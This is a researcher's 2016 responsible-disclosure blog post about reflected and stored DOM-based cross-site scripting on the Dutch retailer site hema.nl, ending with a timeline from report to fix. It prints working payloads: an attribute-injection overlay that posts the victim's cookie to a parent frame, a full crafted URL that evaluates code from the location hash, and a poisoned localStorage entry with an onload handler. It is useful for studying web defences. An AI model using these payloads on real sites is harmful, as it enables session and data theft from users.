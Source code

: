 ```yaml
---
title: Cross-site-scripting on one of the largest Dutch franchisors
subtitle: Reflected and "Stored" DOM-based cross-site-scripting on hema[dot]nl.
description: By abusing a sensitive data exposure vulnerability it is possible to steal data from a Hema user. If the user is signed in, data like the user's name and email can be stolen using cross frame scripting. Besides that, a malicious JavaScript payload can be inserted into the local storage which causes DOM-based XSS.
keywords: xss, cross-site, scripting, hema, dutch, franchisor, dom, dom-based, sensitive, data, exposure
date: 2016-12-20 21:14:41
---
```


By abusing a sensitive data exposure vulnerability ({% customlink "https://www.owasp.org/index.php/Top_10_2013-A6-Sensitive_Data_Exposure" %}) it is possible to steal data from a Hema user. If the user is signed in, data like the user's name and email can be stolen using cross frame scripting ({% customlink "https://www.owasp.org/index.php/Cross_Frame_Scripting" %}). Besides that, a malicious JavaScript payload can be inserted into the local storage which causes DOM-based XSS.

> Please note that I used FireFox to test this vulnerability since browsers like Chrome, Safari and Edge have built in XSS auditors, which filter most of the reflected XSS.

> {% customlightbox "image-chrome-xss-auditor" "xss-auditor-block.png" "Google Chrome's XSS auditor" %}

### Proof of Concept (reflected XSS)
While examining hema.nl I found some interesting XHR calls. One of them was `ListerQuickView.aspx`, which contained a lot of GET parameters.

`http://www.hema.nl/Pages/Fredhopper/ListerQuickView.aspx?culture=nl-NL&nextProductId=pnl_60000199&prevProductId=&productId=pnl_60000198&productSku=12345`

I tried to inject JavaScript in all the parameters but it didn't really work. Especially because they blocked all requests if the URL contained a `<` sign followed by another character. The value of one of the parameters, `productSku`, was used as an attribute value. This made it possible to execute JavaScript using the `onmousemove` event. Unfortunately the `onload` event couldn't be used since the element it got injected in was a div.

You can find the payload I used below. The inline CSS causes the div to overlap all content (this increases the chance that `onmousemove` is triggered). The `parent.postMessage` passes the cookie to the parent frame on mouse move.

`&productSku=tes" style="width:100%;height:100%;position:absolute;top:0;left:0;" onmousemove="parent.postMessage(cookie, '*')">as`

Which resulted in the following HTML:

{% customlightbox "image-xss-payload" "xss-payload-in-source.jpg" "Payload in HTML" %}

We can now place this piece of art in an iframe, which results in cross frame scripting.

### Proof of Concept (Stored DOM-based XSS)

Making it "Stored DOM-based XSS" is a bit more difficult. I divided it into two steps, bypassing the input restrictions and inserting the JavaScript payload into the local storage.

#### Bypassing Hema's input restrictions

The DOM-based XSS vulnerability contains a little bit more code. Lets use the previous payload and edit it to look like this:

`data-message="message" style="width:100%;height:100%;position:absolute;top:0;left:0;" onmousemove="eval(location.hash.substring(1))"`

This code executes the JavaScript from the `location.hash`. I used `location.hash` since hema.nl blocks a lot of characters, like `<` and `{`, and the `location.hash` will not be included in the request, so hema.nl will never know about it.

In my location hash I wrote `#window.addEventListener(arguments[0].originalTarget.attributes[4].value,function(event){eval(event.data)})`.

I use `arguments[0].originalTarget.attributes[4].value` (where `arguments[0]` is the `onmousemove` event) to get the value of the fourth attribute of our div, which is the string `message`. I couldn't just add the string `"message"` to `addEventListener` since quotes in the hash are converted to `%22`, which results in an unexpected `%` character.

So all this code basically sets a listener for messages on mouse move. Using cross frame scripting we can now execute all the code we want in the hema.nl iframe using `postMessage`.

`document.getElementById('hema').contentWindow.postMessage('alert(document.cookie)', '*')`

Which results in:

{% customlightbox "image-alert-cookie" "xss-alert-cookie.png" "Alert on mouse over" %}

This is the full URL that I used:

`http://www.hema.nl/Pages/Fredhopper/ListerQuickView.aspx?culture=nl-NL&nextProductId=pnl_60000199&prevProductId=&productId=pnl_60000198&productSku=tes%22%20data-message=%22message%22%20style=%22width:100%;height:100%;position:absolute;top:0;left:0;%22%20onmousemove=%22eval(location.hash.substring(1))%22%20data-test=%22as#window.addEventListener(arguments[0].originalTarget.attributes[4].value,function(event){eval(event.data)});`

#### Making it "Stored DOM-based XSS"

Hema stores some interesting JSON in the local storage. For example, they store all the products that I added to my favorites.

A product that I added to my favorites looks like this:

<pre class="highlighting"><code>{
        "imgUrl":"https://images.hema.nl/products/mok-60000198-normal.jpg",
        "imgUrlX2":"https://images.hema.nl/products/mok-60000198-normal_twox.jpg",
        "name":"mok",
        "productId":"pnl_60000198",
        "price":"<span class="discount-info"></span><span class="price">3.<sup>-</sup></span>",
}</code></pre>

And ofcourse, using our postMessage, we can edit it so it looks like this (note the `onload` in the imgUrl):

<pre class="highlighting"><code>{
        "imgUrl":"https://images.hema.nl/products/mok-60000198-normal.jpg\" onload=\"alert(document.cookie)",
        "imgUrlX2":"https://images.hema.nl/products/mok-60000198-normal_twox.jpg",
        "name":"mok",
        "productId":"pnl_60000198",
        "price":"<span class="discount-info"></span><span class="price">3.<sup>-</sup></span>",
}</code></pre>

Hema loads the favorites and shows the image without encoding the URL. Which means every time the victim navigates to hema.nl an alert will pop up.

So there you go, Stored DOM-based XSS!

{% customlightbox "image-stored-dom-based-xss-alert-cookie" "xss-stored-proof.png" "Stored DOM-based XSS in hema.nl" %}

### Domains
{% raw %}
<a href="http://www.hema.nl/" target="_blank" rel="noopener">www.hema.nl</a> (vulnerable)
<br>
<a href="http://www.hema.fr/" target="_blank" rel="noopener"><s>www.hema.fr</s></a> (protected by CloudFlare)
<br>
<a href="http://www.hema.be/" target="_blank" rel="noopener"><s>www.hema.be</s></a> (not vulnerable)
<br>
<a href="http://www.hemashop.com/" target="_blank" rel="noopener"><s>www.hemashop.com</s></a> (not vulnerable)
{% endraw %}

### Timeline
{% raw %}
<div class="table-responsive">
	<table class="table">
		<thead>
			<tr>
				<th>Date</th>
				<th>Activity</th>
			</tr>
		</thead>
		<tbody>
			<tr>
				<td>11 Dec 2016 18:43:34 GMT</td>
				<td>Reported the vulnerability to Hema.</td>
			</tr>
			<tr>
				<td>12 Dec 2016 09:23:21 GMT</td>
				<td>Hema is investigating the vulnerability.</td>
			</tr>
			<tr>
				<td>15 Dec 2016 13:54:56 GMT</td>
				<td>Hema confirmed the vulnerability.<br>Hema will be releasing a fix in week 51.</td>
			</tr>
			<tr>
				<td>20 Dec 2016 19:11:44 GMT</td>
				<td>Hema fixed the vulnerability.</td>
			</tr>
			<tr>
				<td>20 Dec 2016 19:14:41 GMT</td>
				<td>Public disclosure.</td>
			</tr>
		</tbody>
	</table>
</div>
{% endraw %}
